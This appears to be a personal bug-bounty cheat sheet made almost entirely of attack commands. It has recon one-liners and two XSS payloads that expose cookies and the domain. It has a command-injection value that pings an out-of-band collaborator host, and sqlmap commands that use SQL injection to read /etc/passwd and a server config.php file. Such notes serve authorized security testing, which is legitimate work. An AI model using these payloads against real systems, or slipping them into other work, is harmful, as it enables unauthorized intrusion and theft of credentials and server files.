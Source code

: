 # Bug Bounty Personal Tips

``` assetfinder X.com | tee -a /tmp/X.txt```

``` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt ```

```  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337```

```  : /"><script>alert(document.cookie)</script> ```

``` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E ```

``` galletita ; ping -c 1 burp.oastify.com ```

``` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 ```

``` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" ```

```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/etc/passwd"
```
```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/var/www/html/config.php"
```
